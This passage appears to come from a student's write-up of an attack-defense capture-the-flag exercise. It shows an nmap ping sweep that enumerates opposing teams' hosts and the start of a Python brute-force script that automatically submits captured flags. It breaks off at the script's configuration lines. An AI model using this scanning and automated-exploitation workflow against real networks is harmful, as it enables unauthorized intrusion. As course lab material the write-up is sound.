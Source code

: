 I got lucky there and managed to get it with
`auth _ 1`. Now that we know it actually works
we need to bruteforce it.

Scanning with nmap we can find all the addresses of the other teams and exploit them (we won't be attacking our address .18).
```bash
ilias@ilias-PC:~/Desktop/hw3-sec/auth$ nmap -sn 10.219.255.0/24 -oA net_ping
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 11:49 EEST
Nmap scan report for 10.219.255.2
Host is up (0.0076s latency).
Nmap scan report for 10.219.255.6
Host is up (0.0075s latency).
Nmap scan report for 10.219.255.10
Host is up (0.0075s latency).
Nmap scan report for 10.219.255.14
Host is up (0.0059s latency).
Nmap scan report for 10.219.255.18
Host is up (0.0058s latency).
Nmap scan report for 10.219.255.22
Host is up (0.0056s latency).
Nmap scan report for 10.219.255.26
Host is up (0.0049s latency).
Nmap scan report for 10.219.255.30
Host is up (0.0065s latency).
Nmap scan report for 10.219.255.34
Host is up (0.0059s latency).
Nmap scan report for 10.219.255.38
Host is up (0.0058s latency).
Nmap scan report for 10.219.255.42
Host is up (0.0052s latency).
Nmap scan report for 10.219.255.46
Host is up (0.0051s latency).
Nmap scan report for 10.219.255.50
Host is up (0.0055s latency).
Nmap scan report for 10.219.255.54
Host is up (0.0057s latency).
Nmap scan report for 10.219.255.58
Host is up (0.0059s latency).
Nmap scan report for 10.219.255.62
Host is up (0.0062s latency).
```

## Developing a Brute-Force Exploit

### Submitting Flags Automatically

We have a small python script here that sumbits the flag for us.

```python3
#!/usr/bin/env python3

import socket
import time
import requests
import string
from concurrent.futures import ThreadPoolExecutor, as_completed

# Configuration
API_KEY = "REDACTED" 
MY_IP = "10.219.255.18"
PORT = 8000
SUBMIT_URL = "https://ctf.hackintro25.di.uoa.gr/submit"

# Active IPs from nmap
```